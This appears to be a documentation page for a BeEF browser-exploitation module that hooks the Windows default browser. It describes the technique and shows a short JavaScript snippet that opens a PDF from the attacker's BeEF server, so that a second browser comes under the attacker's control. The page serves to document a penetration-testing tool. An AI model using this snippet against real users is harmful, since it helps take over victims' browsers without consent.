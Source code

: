 ## Summary

* **Objective**: hook the default browser on Windows
* **Authors**: saafan
* **Browsers**: All except on iOS and Mac

* [Code](https://github.com/beefproject/beef/tree/master/modules/host/hook_default_browser)

## Internal Working

This module attempts to hook the default browser by opening a PDF file in a new window. It will only hook the default browser if the current doesn't support the PDF protocol by itself.

``` js
var pdf_url =  beef.net.httpproto + '://'+beef.net.host+ ':' + beef.net.port + '/report.pdf';
window.open( pdf_url, '_blank');
```

## Feedback

